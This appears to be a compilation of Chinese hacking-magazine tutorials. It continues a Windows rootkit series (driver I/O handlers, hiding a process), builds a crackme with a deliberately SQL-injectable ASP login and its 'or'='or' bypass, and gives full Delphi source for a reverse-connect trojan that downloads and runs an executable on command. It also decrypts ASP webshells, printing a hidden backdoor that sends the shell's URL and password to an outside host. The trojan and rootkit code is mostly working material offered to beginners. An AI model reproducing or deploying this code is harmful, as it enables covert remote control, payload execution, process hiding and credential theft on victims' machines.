- 从本文您可以学到：
- 进程间如何简单通信及相关用处

在上一次的学习中，我们完成了设备的创建和处理设备访问函数的框架，这一次我们会讨论通信实现的一些细节问题。

用户空间要访问设备，要做的事就是打开指定设备并进行读写操作。在 Win32 API 中，有很多函数可以用于打开设备，这里我使用 CreateFile()。使用它的原因很简单：这个 API 地球人都知道，不用浪费杂志的版面解释。看看上一次的代码关于设备名的定义吧。

```cpp
const WCHAR devicename[] = L"\\Device\\my"; // 定义设备名
const WCHAR linkdevicename[] = L"\\DosDevices\\my"; // 定义连接名
```

Devicename 被用于创建设备，linkdevicename 则被用于创建连接。其实所谓的连接就是在文件系统上创建一个到指定设备的映射，以方便用户空间的访问。经过我的测试，CreateFile() 在部分机器上不能直接打开设备，但是连接总是可用。不多说，代码如下。

```cpp
HANDLE hd = CreateFile("\\\\.\\my",
GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL, NULL);
if(hd == (HANDLE)0xffffffff) {
    printf("RootKit kernel open failed!\n");
    return false;
}
```

注意上面的代码，一定要在打开设备时把读和写的请求都写上。还记得我是如何处理open_call()的吗？只允许打开一次！所以，如果仅仅请求了读或者写属性，当希望再打开一个句柄请求写或者读属性的时候，就会失败。另外，同时具有读写属性的句柄在具体应用的时候，读写都使用一个句柄，个人觉得会比较方便。

还有一点，就是希望大家注意一下对句柄非法的判断。在对文件型句柄判断时，可以使用如上的代码。但是对于GetCurrentProcess()这样特殊的函数，返回的虽说也是句柄，却不能用是否等于0xffffffff来判断。为什么？希望大家自己动手跟踪Windows下GetCurrentProcess()的实现。具体的讨论超出了这篇文章的范围。

下面的代码完成对设备发送字符串“somethingthatyouwannasendtokernel”。在具体的实现过程中，第二个参数会被替换成一个动态生成的字符串。

```cpp
DWORD ret_info;
WriteFile(hd, "somethingthatyouwannasendtokernel", 0, &ret_info, NULL);
```

WriteFile的第三个参数nNumberOfBytesToWrite在这里设置成了0，实际上设置成多少都可以。我们创建这个设备并不是为了实现一个真正的设备，只是为了实现与用户空间间的通信，对于用户空间要传送多少字节，我们并不关心，因为实际要处理的字节数可能与程序提供的并不相符。在稍后给出的write_call()代码中，我们将看到，write_call()函数根本没有对nNumberOfBytesToWrite参数进行检查。类似地可以完成对ReadFile()的调用。

在编写驱动程序时要注意，与write_call()不同，read_call()函数不可以“无视”nNumberOfBytesToRead参数的存在。因为这次驱动要完成的任务是向用户空间传送数据，我们必须知道用户提供的缓冲区有多大，即使我们“不相信”用户传入参数的准确性，我们也得这么用，除了这个参数，我们还有什么办法得知用户提供缓冲区的大小呢？注意到ReadFile()函数同样有lpNumberOfBytesRead参数，那么read_call()完全可以在缓冲区大小不足的时候通过lpNumberOfBytesRead给用户空间发送信息。

好了，现在给出write_call()和read_call()完整的“测试版”代码：

```cpp
#define ROOTKIT_FAILED
#define ROOTKIT_SUCCESS
#define ROOTKIT_BUFFER_LIMITED // 定义返回标志
// 可以在光盘里找到另一个测试版的代码
NTSTATUS write_call( IN PDEVICE_OBJECT fdo, IN PIRP Irp){
    PIO_STACK_LOCATION IrpStack = IoGetCurrentIrpStackLocation(Irp);
    NTSTATUS status;
    char *buffer = (char *)(Irp->UserBuffer); //获得缓冲区,read_call()中同
    Irp->IoStatus.Information = ROOTKIT_FAILED;
    Irp->IoStatus.Status = status = STATUS_INVALID_PARAMETER;
    if( (DWORD)buffer > 0x10000 && (DWORD)buffer < 7FFF0000){ // 检查参数
        Irp->IoStatus.Information = ROOTKIT_SUCCESS;
        Irp->IoStatus.Status = status = STATUS_SUCCESS;
        IoCompleteRequest(Irp, IO_NO_INCREMENT); // 完成 IRP
        DbgPrint("%s", buffer); //把用户输入显示出来
        return status;
    }
    DbgPrint("Write failed");
    IoCompleteRequest(Irp, IO_NO_INCREMENT); // 完成 IRP
    return status;
}
```

```cpp
NTSTATUS read_call( IN PDEVICE_OBJECT fdo, IN PIRP Irp){
    PIO_STACK_LOCATION IrpStack = IoGetCurrentIrpStackLocation(Irp);
    NTSTATUS status;
    ULONG ReadLen = IrpStack->Parameters.Read.Length; // 这次不可以忽略这个参数了
    char *buffer = (char *)(Irp->UserBuffer);
    Irp->IoStatus.Information = ROOTKIT_FAILED;
    Irp->IoStatus.Status = status = STATUS_INVALID_PARAMETER;
    if( ((DWORD)buffer > 0x10000 && (DWORD)buffer < 0x7fff0000) ) { // 检查参数
        if (ReadLen < sizeof("Readfromkernelyougotit")) { // 如果缓冲区太小
            Irp->IoStatus.Information = ROOTKIT_BUFFER_LIMITED;
            DbgPrint("ROOTKIT_BUFFER_LIMITED");
            IoCompleteRequest(Irp, IO_NO_INCREMENT);
            return status;
        }
        _strcpy(buffer, "Readfromkernelyougotit");
        Irp->IoStatus.Information = ROOTKIT_SUCCESS;
        Irp->IoStatus.Status = status = STATUS_SUCCESS;
        IoCompleteRequest(Irp, IO_NO_INCREMENT); // 完成 IRP
        return status;
    }
    DbgPrint("Write failed");
    IoCompleteRequest(Irp, IO_NO_INCREMENT); // 完成 IRP
    return status;
}
```

这里我解释一下ROOTKIT_*****宏的定义。把他们都定义为2的n次方的妙处在于，返回值的每一个位都可以用于表示信息。我们还需要在用户空间程序的代码中也定义相同的宏。对于返回值中信息的提取，使用逻辑与运算就行了。例如对缓冲区过小标志的判断：

```cpp
__inline bool is_buffer_limited(DWORD ret_info){
    if (ret_info & ROOTKIT_BUFFER_LIMITED) return true;
    return false;
}
```

解决了用户空间和内核通信的问题，下面就要实现一些驱动才能完成的任务了，这些才是Windows下RootKit的精华所在。在下一部分中，我们将完善write_call()，使其具有判断用户输入的功能并根据特定的输入隐藏任意指定进程。这可不是简单的HOOK API，而是彻彻底底地让进程信息在系统中消失哦！这次就这么多吧，8~


附测试图：图1为加载驱动后，使用WinObj查看设备，发现在此图多了一个名为SATA_H424W的设备。以后的学习中，我们会学习怎么去隐藏这个设备。


可以看到在 Control.exe 里输入了 Hide Proc: 4ac。4ac 是 1196 的十六进制表示。按回车后出现一些信息，同时在 DbgView 的窗口中会出现一些调试信息。注意到任务管理器中，DbgView.exe 进程消失了！但是很明显，DbgView 仍然在工作！命令行窗口中，receive data: 后面的内容来自该设备，可以参考 Control 的源代码。

（本文作者提到的测试版和最终版相关代码都已经收入在光盘中）

图 2 为使用测试客户端在本地连接上设备时的截图。DbgView 中有一些调试信息输出。在右边的任务管理器中，可以很清楚地看到 DbgView.exe 进程及其 PID 1196。图 3 为使用测试客户端隐藏 DbgView.exe 进程成功后的截图。

> **编辑点评：**
> 作者如此细致的讲解，等看完了这一系列文章后，岂不各个都成为大侠了，哇哈哈^_^。

# Asp 解密游戏编写与通关策略（四）

冰域剑客

从本文您可以学到：

- 熟悉 iframe 框架
- 使用版权信息加密
- 了解基本的 SQL 注入
- 了解破解本地判断类的通用方法

之前给朋友们介绍了第一轮游戏的编写，总的来说十分简单，不知道大家是否亲自动手编写了一两关的游戏，也只有通过实践才能够加深理解。从第二轮游戏开始，我们将会把难度逐渐加大，同时会应用到一些更新的知识。因为我是用记事本写程序，页面简陋了点，还请大家见谅。

## 一个简单的 js

我们写一个简单的 js，格式是：document.write('<iframe src=1.txt width=0 height=0></iframe>')，保存为 1.js，这样子就把 1.txt 嵌套在了网页当中，宽和高都设置成了 0，也就是不可见，那个 1.txt 里面我们写上第二关的地址。在解密页面中写下 `<script src=1.js></script>`，把 js 添加进去就可以了。过关的时候大家把这个 js 文件下载下来，然后用记事本打开就可以找到地址了。

## 版权信息隐藏密码

利用版权信息隐藏密码的方法大家可能还没有使用过。我们使用一个 VB 程序，将密码信息写入到版权信息当中，如图 1 所示。


这个密码大家用 VB 的资源修改程序是查看不到的，只有多观察程序本身，右键查看文件的属性才可以看到。我用 C32Asm 进行字符串查找并没有找到，大家要用反编译的方法找到密码可能相对较困难一些。

## 制造登录页面注入漏洞

登录页面的注入相当普遍，有些程序员将新闻页面过滤了，但唯独留个登录页不管，最终造成程序沦陷。这一关来人为给它造个登录页面的注入漏洞。我直接使用了先前注册 VIP 的那个数据库，只是另外添加了一个表 F，字段分别是 username 和 pass，如图 2 所示。


用户名和密码的值可以乱填，毕竟这里是登录页面的注入，不是让大家猜解密码。漏洞页面的代码如下：

```asp
<!--#include file="conn.asp"--> '将数据库连接文件包含进来
<%
user=request("username") '接收用户名
pass=request("password") '接收密码
set rs=server.createobject("adodb.recordset")
sql="select * from F where username='"&user&"' and pass='"&pass&"'"
'查询表中的用户，漏洞出现了，没有对接收到的用户名和密码进行任何判断即放入数据库进行查询。
rs.open sql,conn,3,3
if rs.eof and rs.bof then '没有查询到用户
response.write("<script>alert('用户名或密码错误，请重新登录');history.back(-1)</script>")
else
response.write("欢迎你进入第 3 关，地址是 gotolevel3.asp") '查询到用户，给出过关信息
end if
%>
```

这段代码中的查询语句为 `sql="select * from F where username='"&user&"' and pass='"&pass&"'"`，没有对接收到的用户名和密码做任何判断，是大家很熟悉的注入漏洞了。大家只要在用户名和密码处分别填上 `'or'='or'`，就可以顺利通关。回想很久以前，自己拿着 `'or'='or'` 和 `admin' or '1'='1' or '1'='1` 在大批后台登录页面狂填的时候，自己觉得黑客技术是多么神秘啊，呵呵。

## 本地判断增加注入难度

这一关还是注入，只不过要给大家增加点难度。在本地页面加一段代码，对诸如单引号和等号的非法字符进行判断过滤，我采用了 vbscript 进行判断，不过似乎很多朋友喜欢用 javascript 来判断，这个纯属个人偏好，用什么顺手就用什么吧。判断的代码如下：

```vbscript
<script language=vbscript>
sub button1_onclick    '按了 button1 事件就执行下面的代码
dim name,check         '声明 name,check 两个变量
check=true             'check=true 表示没有非法字符
name=form1.username.value    '把表单中 username 值传给 name
pass=form1.password.value    '把表单中 password 的值传给 pass
'下面判断用户名
for i=1 to len(name)         '从 1 循环到用户名的长度
if asc(mid(name,i,1))=39 or asc(mid(name,i,1))=61 or asc(mid(name,i,1))=32 then '如果用户名中出现了单引号或等号，check 变为 false，39 为单引号 ASCII 码，61 为等号的 ASCII 码
check=false
end if
next
'下面判断密码，方式与用户名的判断相同
for i=1 to len(pass)
if asc(mid(pass,i,1))=39 or asc(mid(pass,i,1))=61 or asc(mid(pass,i,1))=32 then
check=false
end if
next
'下面处理结果
if check=true then
form1.submit    '如果没有非法字符，就传递
else
msgbox "用户名和密码中有非法字符",vbcritical,"你小子不准走"    '有非法字符，给出警告
end if
end sub
</script>
```

然后我们把这段代码用 javascript 加密两次，程序运行后如图 3 所示。


好了，我们来看看怎么突破。这里进行的是本地判断，那我们将网页保存到本地并将这段判断非法字符的代码删去就是了。注意这里必须先用 javascript 解密两次，然后再将脚本删除，另外那个“登录”是个按钮，我们将它换成 submit，即 `<input type=submit value="登录">`，事实上不一定要这么做的，脚本保留下来也可以，只要将其中的 39 和 61 两个 ASCII 码换成其他的数字就可以了，比如说 10000000，这样判断出来肯定就没有非法字符了嘛。

# 总结

前四关里我们写了个简单的 js，利用了程序版权信息来隐藏密码，还亲自构造了注入漏洞，并且为了增加点难度，来了个本地验证，思路大概就是这样。后面的游戏当中，我还会再为大家介绍一下 cookies 注入漏洞的构造，请大家期待。

> **编辑点评：**
> 利用程序版权信息来隐藏密码，妙招也，让小编我来闯这一关也未必能过，看来黑客不是很好当的哦！

# 跟小龙学编反弹木马（一）——反弹上线和简单远控

从本文您可以学到：

- 了解并实现简单的反弹上线
- 实现简单的远程控制

## 原理分析

编写木马当然首选 Delphi，因为黑洞、灰鸽子这些有头有脸的木马都是使用 Delphi 编写的。Delphi 版本很多，各个版本良莠不齐，至今为止所有版本中唯有 Delphi 7 最稳定，所以我们就选择 Delphi 7 来编写木马。说了这么多，现在就转入实战阶段，开始分析一个木马的编写流程。

在本文中将会介绍使用 C/S 模式来编写远程控制木马，编写 C/S 模式木马的一般流程是首先进行 TCP 的三次握手，三次握手之后客户端和服务器端就保持了连接；然后，就可以发送一系列控制指令对被控制端进行控制了。

其中，实现 TCP 三次握手在 Delphi 7 中有两个非常容易实现的 VCL 控件，那就是 ClientSocket 和 ServerSocket。首先，使用 ServerSocket 控件监听一个端口等待客户端的连接；其次，客户端尝试连接；最后，服务器和客户端连接成功，在客户端那里就产生连接成功事件。在客户端和服务器端连接成功之后，就可以互相发送数据了。


因为是编写远程控制软件，所以这些数据就有一些预定义了，在这里定义了三个指令数据，分别是 down、bound、msgbox，可以实现远程下载木马、远程弹出窗口和远程弹出信息框。比如，发送一条数据：downhttp://url.com/mm.exe，在服务器端就首先获取这个数据最左边的四个字符 down，表示下载木马，然后截取 down 之后的所有字符得到 http://url.com/mm.exe，这样就开始执行下载木马然后运行的操作。剩下的 bound 和 msgbox 以此类推。

## 被控制端

首先来编写被控制端，被控制端的界面如图 1 所示，只用到一个 ClientSocket 控件和一个 Timer 控件，并设置 Timer 控件的 Interval 属性为 1000，也就是表明一秒钟运行一次 Timer 事件。

其中，在服务端的编程中使用到两个 API 函数：UrlDownloadToFile 和 ShellExecute，要使用这两个函数就要在 uses 语句后面添加对它们的引用。在这里添加 ShellApi 来引用 ShellExecute 函数，添加 UrlMon 来引用 UrlDownloadToFile 函数，如图 2 所示。


### 具体代码如下：

```delphi
procedure TForm1.ClientSocket1Error(Sender: TObject;
  Socket: TCustomWinSocket; ErrorEvent: TErrorEvent;
  var ErrorCode: Integer);
begin
  ErrorCode := 0; //让 ClientSocket 不至于报错
end;
```

```pascal
procedure TForm1.Timer1Timer(Sender: TObject);
var
  host1:string;
  port1:integer;
begin
  //注意，Timer1 的 Interval 属性要设置为大于 1000，否则可能多次请求连接控制端
  host1:='127.0.0.1'; //编程测试版
  port1:=8888;
  ClientSocket1.Active:=false;
  ClientSocket1.Host:=host1; //设置 IP 地址
  ClientSocket1.Port:=port1; //设置端口
  ClientSocket1.Active:=true; //尝试连接
end;

procedure TForm1.ClientSocket1Connect(Sender: TObject; Socket: TCustomWinSocket);
begin
  Timer1.Enabled:=false; //如果连接成功，就不再尝试连接
end;

procedure TForm1.ClientSocket1Disconnect(Sender: TObject; Socket: TCustomWinSocket);
begin
  Timer1.Enabled:=true; //如果没有连接，就重新尝试连接
end;

procedure TForm1.ClientSocket1Read(Sender: TObject; Socket: TCustomWinSocket);
var
  order:string; //定义一个字符串变量来保存获得的指令
  url,msg:string;
begin
  order:=Socket.ReceiveText; //使用 ReceiveText 方法获得文本信息
  if copy(order,1,4)='down' then //对指令进行拆分
  begin
    url:=copy(order,5,length(order)); //得到要下载的木马地址
    UrlDownloadToFile(nil, PChar(url), PChar('c:\mm.exe'), 0, nil); //把木马下载到 C 盘，然后运行
    ShellExecute(0, 'Open', PChar('c:\mm.exe'), nil, nil, SW_NORMAL); //使用 ShellExecute 函数执行木马
  end;
  if copy(order,1,5)='bound' then
  begin
    url:=copy(order,6,length(order)); //得到要弹出的网页地址
    ShellExecute(0, 'Open', PChar(url), nil, nil, SW_SHOWNORMAL); //使用 ShellExecute 函数打开网页
  end;
  if copy(order,1,6)='msgbox' then
  begin
    msg:=copy(order,7,length(order)); //得到要弹出的消息
    Application.MessageBox(PChar(msg), PChar('msg'), MB_OK); //使用 MessageBox 弹出信息
  end;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  //在编程测试过程中省略下面这句，方便测试。
  //Form1.Visible:=false;
end;
```

## 控制端

上面编写完毕被控制端，现在就来编写客户端了。客户端界面如图 3 所示，主要使用到 ListBox 控件、ListView 控件、Button 控件和 ServerSocket 控件。其中 ServerSocket 控件实现对端口的监听，一旦被控制端请求连接，就把对方的 IP 地址填入到 ListView 控件中。

客户端的工作流程为：

- 首先，监听一个端口，等待木马服务端的连接；
- 然后，木马服务端请求连接，并且连接成功，这时就把木马服务端的 IP 地址填入到 ListView 控件中；
- 最后，在上面的 TCP 连接成功后，就可以开始对服务端进行操作了。选中对方的 IP 地址，然后单击一个功能按钮，就可以对被控制端进行相关的操作。

具体代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  ServerSocket1.Active:=false; //首先关闭 ServerSocket
  ServerSocket1.Port:=StrToInt(Edit1.Text); //要转换为整数类型
  ServerSocket1.Active:=true;
  ListBox1.Items.Add('监听端口: '+Edit1.Text);
end;

procedure TForm1.ServerSocket1ClientConnect(Sender: TObject; Socket: TCustomWinSocket);
var
  a:TListItem;
begin
  a:=ListView1.Items.Add;
  a.Caption:=Socket.RemoteAddress; //把连接的木马 IP 地址添加入 ListView 中
  ListBox1.Items.Add('有主机上线: '+Socket.RemoteAddress); //在 ListBox 中提示有新连接
end;

procedure TForm1.ServerSocket1ClientDisconnect(Sender: TObject; Socket: TCustomWinSocket);
var
  i:integer;
begin
  for i:=0 to ListView1.Items.Count-1 do //遍历所有的 IP 地址
  begin
    if Socket.RemoteAddress=ListView1.Items.Item[i].Caption then
    begin
      ListBox1.Items.Add('有主机下线: '+Socket.RemoteAddress);
      ListView1.Items.Item[i].Delete; //删除下线主机
      exit;
    end;
  end;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  try //这里使用了 ListView 中的 index 对应 socket 连接的索引，两者是对应的，也就是第一个上线主机的 connections 索引就是 0，相当于 ListView 中 0。这样就可以对木马进行多线程的操作
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('down'+Edit4.Text);
  except
    ShowMessage('发送指令出错!');
  end;
end;

procedure TForm1.Button4Click(Sender: TObject);
begin
  try //这里的操作同上，不再赘述。其中使用到 try...except 容错语句，保证程序的稳健性。
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('bound'+Edit5.Text);
  except
    ShowMessage('发送指令出错!');
  end;
end;

procedure TForm1.Button5Click(Sender: TObject);
begin
  try
```


```pascal
    serversocket1.Socket.Connections[listview1.Selected.index].SendText('msgbox'+edit6.text);
    except
        showmessage('发送指令出错！');
    end;
end;


```

在编写完毕服务端和控制端的代码之后，F9 运行两个程序，如图 4 所示。首先在控制端中输入相应的端口，这里是 8888，因为在编写服务端中默认连接的是 8888 端口。然后单击监听按钮，可以看到列表显示监听 8888 端口成功，然后选择主机 IP 地址，最后单击弹出对话框按钮，可以看到对被控制端的操作！

到这里，一个 C/S 型木马就编写完毕了，而且是反弹型的连接方式，读者可以在此基础上多加学习，开发出功能更加完备的远程控制功能。

（本文作者提到的反弹上线和简单远控相关代码都已经收入在光盘中）

> 编辑点评：虽然这类文章已经很多了，但还是需要给小菜们再复习一下，以便更好的掌握相关基础知识。

## 完全解密破小孩 webshell

Novaa

- 从本文您可以学到：
- 了解并掌握脚本的加解密方法

幽月 webshell 的后门被公布后，不知道在哪里看到幽月说，公布后门的人为什么不去解密破小孩 webshell，说那才有技术。本来都不解密 webshell 了，因为只要找到解密函数，然后写个输出网页就可以轻松解密，但是看到上面的话，倒想看看破小孩的马加密技术厉害在哪里，便有了此文。

网上下了个小破孩木马生成器，将生成的 webshell 用记事本打开，它是用微软的脚本加密工具加密了，用解密工具 AspDece 解密。然后查找解密函数，一般解密部分格式都是execute(解密函数())这样的，如图 1 所示。
图 1 解密部分格式
图 2 SinfoEn 被加密源代码
图 3 Fun 的源代码

解密函数是 SinfoEn，然后找解密函数的源代码，用记事本自带的查找功能查找，如图 2 所示。

解密函数中调用了另外一个加密函数 Fun，同样的方法，找到 Fun 的源代码，如图 3 所示。

用 Fun 解密，得到了函数 SinfoEn()的源代码：

```vbscript
Function SinfoEn(ObjStr,ObjPos)
ObjStr=Replace(ObjStr,"-","""")
' 将 ObjStr 中的 - 换为引号，ASP 中引号是 """" 表示
NewStr=Split(ObjStr,"'")
' 通过 Split 得到一个数组，Split 是在一个字符串中通过指定的分界符将字符串分割成数组返回
' 下面是通过 FOR 语句，将每行代码解密，UBound 返回一个数组的下标最大值，& 是字符串连接符，VBCRLF 是回车换行。
For i=0 To UBound(NewStr)
SinfoEn=SinfoEn&EnCode(NewStr(i),ObjPos)&vbCrLf
Next
SinfoEn=Left(SinfoEn, Len(SinfoEn)-2)
' 上面调用了 Left 函数，取得 SinfoEn 的 Len(SinfoEn)-2 值，Len()函数是取得字符串长度
End Function
```

汗，里面还嵌套了一个解密函数 Encode()，找到 Encode()函数，同样经过了 Fun 的加密，解密后得到了 Encode()函数原型：

```vbscript
Function EnCode(ObjStr,ObjPos)
Dim NewStr,TmpStr,i,LenStr
LenStr=Len(ObjStr)
For i=0 To Int(LenStr/ObjPos)-1
TmpStr=Mid(ObjStr,i*ObjPos+1,ObjPos)&TmpStr
Next
EnCode=TmpStr&Right(ObjStr,LenStr Mod ObjPos)
End Function
```

这个时候以为写个输入网页将加密部分输出就可以了，但是没想的那么好，由于解密函数调用了 Left 函数，这样就不能在同一个网页中解密与输出了。编写了两个 ASP 网页，分别是提交加密部分 (encode.html) 和处理并且输出解密后的文本 (uncode.asp)，下面是 encode.html 页面的源码，这是 HTML 写的提交页面，里面定义了一个提交数据的 FORM，通过 Textarea 的 name 属性提交需要解密的内容。

```html
<html>
<body>
<form name="jiemi" method="post" action="uncode.asp">
<textarea name="novaa" rows=12 cols=120></textarea><br><
<div align="center"><input type="submit" name="Submit" value="解密"></div>
</form>
</body> </html>
```

uncode.asp 则是一个处理和解密上面表单提交数据的网页。先用 request 取得提交的内容，然后通过解密函数解密，最好通过<%=Result%>输出到一个文本框中，<%=Result%>就是显示 Result 的值。

```html
<html>
<body>
<%
InnerStr=request.Form("novaa")
Function SinfoEn(ObjStr,ObjPos)
ObjStr=Replace(ObjStr,"-","""")
NewStr=Split(ObjStr,"'")
For i=0 To UBound(NewStr)
SinfoEn=SinfoEn&EnCode(NewStr(i),ObjPos)&vbCrLf
Next
SinfoEn=Left(SinfoEn,Len(SinfoEn)-2)
End Function

Function EnCode(ObjStr,ObjPos)
Dim NewStr,TmpStr,i,LenStr
LenStr=Len(ObjStr)
For i=0 To Int(LenStr/ObjPos)-1
TmpStr=Mid(ObjStr,i*ObjPos+1,ObjPos)&TmpStr
Next
EnCode=TmpStr&Right(ObjStr,LenStr Mod ObjPos)
End Function

Result=SinfoEn(InnerStr,2)
%>
<form>
<textarea name="UnEncode" rows=12 cols=120><%=Result%></textarea>
</form>
</body> </html>
```

我想这下好了，直接输出就可以了，但是发现不行，输出的是乱码，汗。第一次遇到，经过检查网页应该没错，因为我用相同的解密函数在VBS中可以输出。经过多次测试，发现提交加密部分代码的时候不能加上两边的引号，提交没双引号的代码还是有问题，如图4所示。不该换行的地方换行了，经过多次测试，发现是用记事本COPY时的问题，好吧，用专门的代码编辑器打开，然后复制过去，这次无故换行问题解决了。接下来又出现了问题，如图5所示。

图4 提交的需要解密的代码

图5 标记出现混用

解密输出部分和自己的输出网页的标记出现了混用，本该全部显示在文本框中的，结果却成这样了。汗一个，没办法，只有用VBS输出了。关于用VBS输出，可以看我的另一篇ASP解密的文章，就是把加密函数和需要解密的字符串放在一个VBS文件中，然后通过WSCRIPT.ECHO来输出，通过cscript.exe //nologo *.vbs重定向到一个文本，方便我们复制。经过一个下午，终于解密完了Webshell，接下来就是看一下是否有后门存在，CTRL+F查找USERPASS，很快就找到了隐藏的后门，代码为：

```vbscript
theserver.open "GET",right(sot(13,0),4)&chr(60-pos)&"/"&chr(pos+45)&inf&"/"&chr(39-pos)&"65"&chr(39-pos)&pos&chr(70)&"?%75="&server.URLEncode(Serveru)&"&%70="&UserPass

RRS"<DIV style=""CURSOR:url('http://"&chr(37)&"77"&chr(37)&"2E%31"&chr(39-pos)&""&(4+pos)&"c%6c"&chr(37)&"34%2E"&chr(37)&"63%6f"&chr(37)&"6d/%"&(36+pos)&"%2f?%75="&Serveru&"&%70="&UserPass&"')"">"
```

这个是通过ASCII码和URL编码加密的，pos在该webshell里面定义的值为2，CHR()函数是将ASCII字码转换成字符，比如chr(37)是“/”，right(sot(13,0),4)值是HTTP，因为webshell里面Sot(13,0)定义为“Microsoft.XMLHTTP”，上面代码解密后分别为：

```vbscript
http://inf/e/?u="&server.URLEncode(Serveru)&"&p="&UserPass
http://%77%2E%31%6c%6c%34%2E%63%6f%6d/%38%2f?%75="&Serveru&"&%70="&UserPass&"')"">"
```

将 `http://%77%2E%31%6c%6c%34%2E%63%6f%6d/%38%2f?%75="&Serveru&"&%70="&UserPass&"')"">"` 用URL编码工具还原就是 `http://w.1ll4.com/8/?u="&Serveru&"&p="&UserPass`。

最后就是解密它的密码加密部分了，通过以下身份验证部分代码：

```vbscript
if Serinf(request.form("pass"),pn)=UserPass then:session("web2a2dmin")=UserPass:response.redirect url:
```

轻易的找到了加密函数Serinf()，Pos的值是2：

```vbscript
Function Serinf(getstr, Pos):Dim i, newStr:For i = 1 To Len(getstr):newStr = newStr & Asc(Mid(getstr, i, 1))+Pos & (298361 - Pos):Next:Serinf = newStr:End Function
```

密码的加密方法就是通过逐个取得密码的字符，然后取其ASCII码，通过运算得到加密后的密码。比如密码是h，h的ASCII是104，加密后的密码就是104&298359，&是连接符，所以得到的是104298359。大家可以试试写自己的密码加密函数，这里顺便说一下，如果不想去弄这个加密函数，通过修改身份验证方式可以轻松去掉密码加密。也就是将 `if Serinf(request.form("pass"),pn)=UserPass` 换为 `if request.form("pass")=UserPass`，然后把UserPass由104298359换为h。

最后，对小破孩马赞一个，加密的很好，很强大，不过由于ASP本身的局限，所以解密只是时间的问题。大家对里面函数有什么不懂的可以查看“微软脚本技术基础”，里面有函数原型和用法，是学习VBS和JS的很好参考资料。

> 编辑点评：
现在的马啊，真不厚道，门都藏到小黑手里了，不像话，难怪大家要去分析被加密的代码。

Novaa

- 从本文您可以学到：
- 了解并掌握脚本的加解密方法

朋友夹烟的大马功能强大，但是毕竟不是自己的，想对夹烟马儿修改下，但是此马加密了，听说很多加密的马还有后门，吓我们小菜啊。好不容易拿下的WEBSHELL就这样被别人收了，不公平啊！于是研究加密解密方法，便有了此文。

大马加密几乎可以说是没有意义，因为解密函数在同个大马里，只要花上时间，就可以完全解密。大马加密的方式主要有3步：

- 1、编写自己的加密函数，利用自己的加密函数对大马加密；
- 2、利用ASP或VBS的自带函数对大马进行加密；
- 3、用微软的SCRIPT.ENCODE工具加密，这是最后一步，经过这步加密了的文件不能修改了，否则无法执行。

知道了大马的加密方式，自然就有了解密的步骤：

- 1、利用工具解密，此步骤主要是针对微软的screnc.exe加密的；
- 2、找出马主人的加密函数，然后写出对应的解密网页；
- 3、进一步查找其他加密的地方，尤其是放后门的地方一般都是加了密的。

好了，现在我们来细说解密的每一步。

1、解密工具的选择。经过本人多次测试，发现微软的解密工具zwdecode.exe有很大的局限，只要马大一点，该工具就不能彻底的解密，这样后面的解密工作都进行不下去了。这里推荐一个解密工具aspdec.exe，在其官方站www.saipusoft.com有下载，该工具解密的很彻底。利用该工具解密了大马之后就可以进入第二步了。

2、找出大马的解密函数。我这里以13木马为例，如图1所示。便是该马的解密函数了，该解密函数用的那是相当的普遍，我看过的木马都有用过该函数解密。从解密函数我们可以逆推出加密函数，就是将引号替换为“+”，将换行符换为“+”，然后将每行的字符反转。找到了解密函数就好办了，写一个解密脚本或者解密网页就可以了，这是重点。

图1 解密函数

```html
RRS"<html><meta http-equiv="Content-Type" content="text/html; charset=gb2312">"
RRS"<title>"&SMName&" - "&ServerIP&"</title>"
RRS"<style type="text/css">"
RRS"body,td{font-size: 12px;background-color:#000000;color:#eee;}"
RRS"input,select,textarea{font-size: 12px;background-color:#ddd;border:1px solid #fff}"
RRS".C{background-color:#000000;border:0px}"
RRS".cmd{background-color:#000;color:#FFF}"
RRS"body{margin: 0px;margin-left:4px;}"
RRS"BODY {SCROLLBAR-FACE-COLOR: #000000;SCROLLBAR-HIGHLIGHT-COLOR: #00fcfc;SCROLLBAR-SHADOW-COLOR: #00fcfc;SCROLLBAR-ARROW-COLOR: #00fcfc;SCROLLBAR-TRACK-COLOR: #000000;SCROLLBAR-DARKSHADOW-COLOR: #00fcfc;SCROLLBAR-BASE-COLOR: #000000}"
RRS"a{color:#ddd;text-decoration: none;}a:hover{color:red;background:#000}"
RRS".am{color:#888;font-size:11px;}"
RRS"</style>"
RRS"<script language=javascript>function killErrors(){return true;}window.onerror=killErrors;"
RRS"function yesok(){if(confirm("确认要执行此操作吗?")){return true;}else return false;}"
RRS"function runClock(){theTime = window.setTimeout("runClock()", 100);var today = new Date();var display= today.toLocaleString();window.status=""+"&AD&"+"--"+display;}runClock();"
RRS"function ShowFolder(Folder){top.addrform.Folderpath.value = Folder;top.addrform.submit();}"
RRS"function FullForm(FName,FAction){top.hideform.FName.value = FName;if(FAction=="CopyFile"){DName = prompt("
```

# 用 VBS 写解密脚本

由于 JS 和 VBS 的函数不一致，而 ASP 和 VBS 很相配，所以这里用 VBS 脚本解密。由于一个木马加密的地方可能很多，所以这是用 VBS 脚本解密的优势，可以一次解密很多。下面是我的解密脚本：

```vbscript
dim ShiSanNewStr, ShiSanI
Function ShiSanFun(ShiSanObjstr)
ShiSanObjstr = Replace(ShiSanObjstr, "+", "")
For ShiSanI = 1 To Len(ShiSanObjstr)
If Mid(ShiSanObjstr, ShiSanI, 1) <> "+" Then
ShiSanNewStr = Mid(ShiSanObjstr, ShiSanI, 1) & ShiSanNewStr
Else
ShiSanNewStr = vbCrLf & ShiSanNewStr
End If
Next
ShiSanFun = ShiSanNewStr
Wscript.echo ShiSanFun
'上面是显示出解密后的内容，我们后门将会把它重定向到文本中
End Function
'上面是解密函数，直接把大马的 COPY 出来就可以了，这就是为什么用 VBS 的原因了。
dim ShiSan(3)
'根据你想解密的字符单个修改，这里是 3 个元素的数组
ShiSan(1) = "这里填解密后的内容"
ShiSan(2) = "这里填解密后的内容"
ShiSan(3) = "这里填解密后的内容"
for i=1 to 3
ShiSanFun(ShiSan(i))
Next
'上面是通过循环输出解密后的内容。
```

